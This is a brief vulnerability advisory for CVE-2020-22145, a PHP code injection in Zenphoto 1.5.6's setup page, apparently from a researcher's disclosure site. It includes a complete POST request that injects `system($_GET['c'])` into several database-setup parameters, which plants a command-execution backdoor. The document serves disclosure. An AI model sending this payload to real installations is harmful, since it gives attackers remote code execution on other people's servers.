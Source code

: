 ```yaml
---
cve: "CVE-2020-22145"
title: "Code injection in Zenphoto v1.5.6 and prior"
date: 2020-02-11
tags:
- cve
- code injection
- rce
---
```

A PHP code injection vulnerability in `/zp-core/setup/index.php` of Zenphoto 1.5.6 allows attackers to execute arbitrary code.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22145

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution.

**Details:**  
File: `/zp-core/setup/index.php`  
Parameters: `db_software`, `db_user`, `db_pass`, `db_host`, `db_database`  
URL: `/zp-core/setup/`

**Payload:**  
```
POST /zp-core/setup/
db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_
```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-22145](/images/cve-2020-22145.png)
